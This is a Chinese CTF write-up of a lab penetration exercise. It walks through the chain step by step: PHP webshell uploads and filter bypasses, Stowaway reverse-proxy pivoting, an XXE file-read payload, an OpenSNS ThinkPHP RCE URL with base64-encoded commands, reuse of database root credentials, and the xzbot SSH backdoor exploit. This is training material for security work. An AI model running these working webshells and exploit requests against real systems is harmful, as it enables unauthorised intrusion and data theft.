# 行业赛半决赛渗透-先知社区

> **来源**: https://xz.aliyun.com/news/17127  
> **文章ID**: 17127

---

前言:一次行业赛半决赛的渗透题，总共有12个flag，做了前十个，不太会Java题，最后两个没做，有感兴趣的师傅可以找我要一下环境。

目标:192.168.10.128

# 外网信息收集

## 全端口扫描



发现5503端口有一个上传点


直接传马

```
POST / HTTP/1.1
Host: 192.168.10.128:55003
Accept-Encoding: gzip, deflate
Origin: http://192.168.10.128:55003
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfCKMvZoHUlCuGXZw
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Referer: http://192.168.10.128:55003/
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 354

------WebKitFormBoundaryfCKMvZoHUlCuGXZw
Content-Disposition: form-data; name="uploaded"; filename="1.php"
Content-Type: application/octet-stream

GIF89a
<?php @eval($_REQUEST['a']);phpinfo();?>
------WebKitFormBoundaryfCKMvZoHUlCuGXZw
Content-Disposition: form-data; name="submit"

让🐎跑起来
------WebKitFormBoundaryfCKMvZoHUlCuGXZw--
```



回显403，测试过滤了php以及一些危险函数，还有长度过滤。

参考:[https://xz.aliyun.com/news/7949?time\_\_1311=Yqjx0DcG0Q0%3DdGNqeeTqiwxGw2rnDgjDFoD&u\_atoken=ec344e58257550a6a0e74481d692f5da&u\_asig=1a0c39d517408037693224143e00b1](https://xz.aliyun.com/news/7949?time__1311=Yqjx0DcG0Q0=dGNqeeTqiwxGw2rnDgjDFoD&u_atoken=ec344e58257550a6a0e74481d692f5da&u_asig=1a0c39d517408037693224143e00b1)

```
<?=`$_GET[1]`;
```

* 短标签和输出：在PHP中，<?= 是一个简写形式，用于直接输出表达式的结果。等同于 <?php echo ...; ?>。因此，<?= 后面的内容将被解释为PHP代码并被执行。
* 直接使用用户输入： $GET 可能是指 $\_GET，这是一个超全局数组，用于收集通过 URL 参数传递给脚本的数据。如果代码确实是指 $\_GET[1]，那么它试图从URL参数中获取数据，并直接将其作为PHP代码执行。

```
POST / HTTP/1.1
Host: 192.168.10.128:55003
Accept-Encoding: gzip, deflate
Origin: http://192.168.10.128:55003
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfCKMvZoHUlCuGXZw
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Referer: http://192.168.10.128:55003/
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 354

------WebKitFormBoundaryfCKMvZoHUlCuGXZw
Content-Disposition: form-data; name="uploaded"; filename="1.php"
Content-Type: application/octet-stream

<?=`$_GET[1]`;
------WebKitFormBoundaryfCKMvZoHUlCuGXZw
Content-Disposition: form-data; name="submit"

让🐎跑起来
------WebKitFormBoundaryfCKMvZoHUlCuGXZw--
```



上传成功，执行命令



echo写马

```
http://192.168.10.128:55003/upload/1845624294.php?1=echo "<?php eval(\$_REQUEST[9])?>" >> 9.php
```



# flag1&flag2&flag3

```
grep -r "flag*"
env
```



## Stowaway搭建第一层代理

攻击机

```
C:\Users\35031\Videos\stowaway>windows_x64_admin -l 9000 -s 123
[*] Starting admin node on port 9000

    .-')    .-') _                  ('\ .-') /'  ('-.      ('\ .-') /'  ('-.
   ( OO ). (  OO) )                  '.( OO ),' ( OO ).-.   '.( OO ),' ( OO ).-.
   (_)---\_)/     '._  .-'),-----. ,--./  .--.   / . --. /,--./  .--.   / . --. /  ,--.   ,--.
   /    _ | |'--...__)( OO'  .-.  '|      |  |   | \-.  \ |      |  |   | \-.  \    \  '.'  /
   \  :' '. '--.  .--'/   |  | |  ||  |   |  |,.-'-'  |  ||  |   |  |,.-'-'  |  | .-')     /
    '..'''.)   |  |   \_) |  |\|  ||  |.'.|  |_)\| |_.'  ||  |.'.|  |_)\| |_.'  |(OO  \   /
   .-._)   \   |  |     \ |  | |  ||         |   |  .-.  ||         |   |  .-.  | |   /  /\_
   \       /   |  |      ''  '-'  '|   ,'.   |   |  | |  ||   ,'.   |   |  | |  | '-./  /.__)
    '-----'    '--'        '-----' '--'   '--'   '--' '--''--'   '--'   '--' '--'   '--'
                                    { v2.2  Author:ph4ntom }
[*] Waiting for new connection...
[*] Connection from node 192.168.10.128:60308 is set up successfully! Node id is 0
(admin) >> use 0
(node 0) >> socks 2000
[*] Trying to listen on 0.0.0.0:2000......
[*] Waiting for agent's response......
[*] Socks start successfully!
(node 0) >>
```

目标机

```
./linux_x64_agent -c 192.168.10.1:9000 -s 123 --reconnect 8
```

设置代理



# 第一层内网信息收集

```
E:\Tool\天狐渗透工具箱-社区版V1.2\Tool\fscan\fscanplus>fscanPlus_amd64.exe -h 172.16.16.16/24 -socks5 192.168.10.1:2000

  ______                   _____  _
 |  ____|                 |  __ \| |
 | |__ ___  ___ __ _ _ __ | |__) | |_   _ ___
 |  __/ __|/ __/ _  |  _ \|  ___/| | | | / __|
 | |  \__ \ (_| (_| | | | | |    | | |_| \__ \
 |_|  |___/\___\__,_|_| |_|_|    |_|\__,_|___/
                     fscan version: 1.8.4 TeamdArk5 v1.0
Socks5Proxy: socks5://192.168.10.1:2000
start infoscan
172.16.16.11:22 open
172.16.16.17:80 open
172.16.16.11:80 open
172.16.16.16:80 open
172.16.16.17:9000 open
[*] alive ports len is: 5
start vulscan
[*] WebTitle http://172.16.16.17       code:200 len:5434   title:三国杀，启动!
[*] WebTitle http://172.16.16.16       code:200 len:243    title:蒙古🐎赛跑
[+] FCGI 172.16.16.17:9000
Status: 403 Forbidden
X-Powered-By: PHP/7.3.11
Content-type: text/html; charset=UTF-8

Access denied.
stderr:Access to the script '/etc/issue' has been denied (see security.limit_extensions)
plesa try other path,as -path /www/wwwroot/index.php
[*] WebTitle http://172.16.16.11       code:200 len:20487  title:OpenSNS v5开源社群系统
[+] InfoScan http://172.16.16.11       [ThinkPHP]
已完成 6/6
[*] 扫描结束,耗时: 3m30.1351078s
```

# flag4

访问<http://172.16.16.17/>





# flag5



# flag6

看着界面有点像XXE靶场

```
<script type='text/javascript'> 
function doLogin(){
    var username = $("#username").val();
    var password = $("#password").val();
    if(username == "" || password == ""){
        alert("将军为何一言不发?");
        return;
    }
    
    var data = "<user><username>" + username + "</username><password>" + password + "</password></user>"; 
    $.ajax({
        type: "POST",
        url: "doLogin.php",
        contentType: "application/xml;charset=utf-8",
        data: data,
        dataType: "xml",
        anysc: false,
        success: function (result) {
            var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
            var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
            if(code == "0"){
                $(".msg").text("我们的游戏正在蒸蒸日上哦!");
            }else if(code == "1"){
                $(".msg").text("我们的游戏正在蒸蒸日上哦!");
            }else{
                $(".msg").text("error:" + msg);
            }
        },
        error: function (XMLHttpRequest,textStatus,errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    }); 
}
```

结合这段源码，打一下XXE

参考:<https://blog.csdn.net/weixin_43610673/article/details/123427161>

```
POST /doLogin.php HTTP/1.1
Host: 172.16.16.17
Origin: http://172.16.16.17
Referer: http://172.16.16.17/
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: application/xml, text/xml, */*; q=0.01
Content-Type: application/xml;charset=UTF-8
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
X-Requested-With: XMLHttpRequest
Content-Length: 57

<!DOCTYPE ANY [
    <!ENTITY test SYSTEM "file:///flag">
]>
<user><username>&test;</username><password>123</password></user>
```



# flag7

OpenSNS v5开源社群系统漏洞参考:<https://blog.csdn.net/qq_48985780/article/details/122215945>

```
/index.php?s=weibo/Share/shareBox&query=app=Common%26model=Schedule%26method=runSchedule%26id[status]=1%26id[method]=Schedule->_validationFieldItem%26id[4]=function%26id[0]=cmd%26id[1]=assert%26id[args]=cmd=phpinfo()
```



发现执行命令不能带符号，用base64编码，多次编码直到没符号。

```
ls /  三次base64编码  WWtoTloweDNQVDA9

http://172.16.16.11/index.php?s=weibo/Share/shareBox&query=app%3dCommon%26model%3dSchedule%26method%3drunSchedule%26id[status]%3d1%26id[method]%3dSchedule->_validationFieldItem%26id[4]%3dfunction%26id[0]%3dooo%26id[1]%3dassert%26id[args]%3dooo%3dsystem(base64_decode(base64_decode(base64_decode(WWtoTloweDNQVDA9))))
```



```
cat /flag 一次base64编码 Y2F0IC9mbGFn
http://172.16.16.11/index.php?s=weibo/Share/shareBox&query=app%3dCommon%26model%3dSchedule%26method%3drunSchedule%26id[status]%3d1%26id[method]%3dSchedule-%3E_validationFieldItem%26id[4]%3dfunction%26id[0]%3dooo%26id[1]%3dassert%26id[args]%3dooo%3dsystem(base64_decode(Y2F0IC9mbGFn))
```



```
echo "<?php eval(\$_REQUEST[1])?>" >> 1.php  两次base64编码 WldOb2J5QWlQRDl3YUhBZ1pYWmhiQ2hjSkY5U1JWRlZSVk5VV3pGZEtUOCtJaUErUGlBeExuQm9jQT09

http://172.16.16.11/index.php?s=weibo/Share/shareBox&query=app%3dCommon%26model%3dSchedule%26method%3drunSchedule%26id[status]%3d1%26id[method]%3dSchedule->_validationFieldItem%26id[4]%3dfunction%26id[0]%3dooo%26id[1]%3dassert%26id[args]%3dooo%3dsystem(base64_decode(base64_decode(WldOb2J5QWlQRDl3YUhBZ1pYWmhiQ2hjSkY5U1JWRlZSVk5VV3pGZEtUOCtJaUErUGlBeExuQm9jQT09)))
```



# flag8

根据脚本显示，flag8在数据库里面

```
#!/bin/bash

nohup /usr/sbin/sshd -D &
#flag1:
echo $FLAG1 > /flag
#flag2:
sed -i "s/flagflagflag/${FLAG2}/g" /db.sql

#flag3:
echo $FLAG3 > /root/flag
export FLAG1=not_flag
export FLAG2=not_flag
export FLAG3=not_flag
rm -rf /var/run/mysqld/mysqld.sock.lock
rm -rf /tmp/mysql.sock
usermod -d /var/lib/mysql/ mysql
ln -s /var/lib/mysql/mysql.sock /tmp/mysql.sock
chown -R mysql:mysql /var/lib/
service mysql start
service apache2 start
# nohup /usr/sbin/sshd -D &
mysql_ready() {
    mysqladmin ping --socket=/run/mysqld/mysqld.sock --user=root --password=root > /dev/null 2>&1
}

while !(mysql_ready)
do
    echo "waiting for mysql ..."
    sleep 3
done

mysql -e "ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'root';flush privileges;" -uroot -proot
mysql -e "source /db.sql" -uroot -proot

rm -rf /db.sql

while :
do
    sleep 1
done
```

账号密码都是root，直接连接，挨个翻找到flag。



# flag9

flag在/root/flag里面应该要提权



官方给的提示打xzbot

```
go install github.com/amlweems/xzbot@latest
xzbot.exe -addr 172.16.16.11:22 -cmd "cat /root/flag >> /tmp/flag"
```





## Stowaway搭建第二层代理

攻击机

```
(node 0) >> listen
[*] BE AWARE! If you choose IPTables Reuse or SOReuse,you MUST CONFIRM that the node you're controlling was started in the corresponding way!
[*] When you choose IPTables Reuse or SOReuse, the node will use the initial config(when node started) to reuse port!
[*] Please choose the mode(1.Normal passive/2.IPTables Reuse/3.SOReuse): 1
[*] Please input the [ip:]<port> : 9000
[*] Waiting for response......
[*] Node is listening on 9000
(node 0) >>
[*] New node online! Node id is 1
(node 0) >> back
(admin) >> use 1
(node 1) >> socks 2001
[*] Trying to listen on 0.0.0.0:2001......
[*] Waiting for agent's response......
[*] Socks start successfully!
```

目标机

```
./linux_x64_agent -c 172.16.16.16:9000 -s 123 --reconnect 8
```

# 第二层内网信息收集

```
(www-data:/tmp) $ ./fscan-gw -h 10.15.51.12/24 -np
10.15.51.12:22 open
10.15.51.12:80 open
10.15.51.15:8080 open
10.15.51.12:7777 open
[*] WebTitle http://10.15.51.12        code:200 len:20487  title:OpenSNS v5开源社群系统
[*] WebTitle http://10.15.51.15:8080   code:200 len:850    title:Index
[+] InfoScan http://10.15.51.12        [ThinkPHP]
```

# flag10





‍
